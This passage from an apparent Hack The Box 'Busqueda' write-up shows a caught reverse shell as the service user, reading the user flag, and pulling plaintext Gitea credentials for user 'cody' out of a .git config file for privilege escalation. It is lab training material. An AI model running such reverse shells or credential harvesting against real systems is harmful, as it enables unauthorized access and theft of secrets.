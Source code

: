 ```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.217] 40280
bash: cannot set terminal process group (1523): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
```

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/svc/user.txt
```
# Privilege Escalation
### Credentials on .git directory config file
Enumerating the folders we found a .git directory:

```shell
cd /var/www/app/.git
```

Examining the config file we found some credentials and a vhost:

```shell
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```

This gave us the credentials for the user cody:

```shell
# Username
cody

# Password
jh1usoih2bkjaspwe92
```

### gitea.searcher.htb
Lets add the new vhost to /etc/hosts:
